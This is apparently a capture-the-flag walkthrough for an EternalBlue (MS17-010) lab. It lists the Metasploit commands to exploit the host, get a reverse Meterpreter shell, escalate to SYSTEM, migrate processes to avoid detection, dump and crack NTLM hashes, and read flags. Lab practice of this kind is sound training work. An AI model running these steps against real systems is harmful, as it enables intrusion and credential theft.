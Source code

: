 # Blue

### **Tasks**:

1. **Recon**:
   1. Do nmap version scan along with vuln script to find vulnerability
      1. `nmap -sV --script vuln ip`
      2. Vulnerable to CVE-2017-0143 or ms17-010 found.\[Eternal Blue] from nmap results - Answer all questions based on this output.
2. **Gain Access**:
   1. Start metasploit console , search ms17-010, use exploit/windows/smb/ms17\_010\_eternalblue, set RHOSTS to victim ip and run.
   2. Background session by pressing ctrl+z
3. **Escalate**:
   1. Convert shell to meterpreter: use post/multi/manage/shell\_to\_meterpreter , SET LHOST to attacker ip and SESSION (backgrounded session id , use sessions -l to list sessions).
   2. Execute **run**  to get meterpreter session and run `sessions -i MeterpreterSessionId`_ to switch to meterpreter session. Run_ `getsystem` to verify we got system access and are NT AUTHORITY\SYSTEM indeed.
   3. Use `ps` to list all process, migrate to any process running as system using `migrate pid` **, **we are injecting our meterpreter in running process to get stable and make our shell less detective.
4. **Cracking**:
   1. type `hashdump` in meterpreter session and obtain NTLM credential hash dump.
   2. Use [crackstation](https://crackstation.net), john or hashcat to get password of Jon.
5. **Find flags!**:
   1. run `search -f flag*` in meterpreter session, you will find location of flags.
   2. Do `cat location_of_flag` for all 3 flag locations and submit the flags !!!
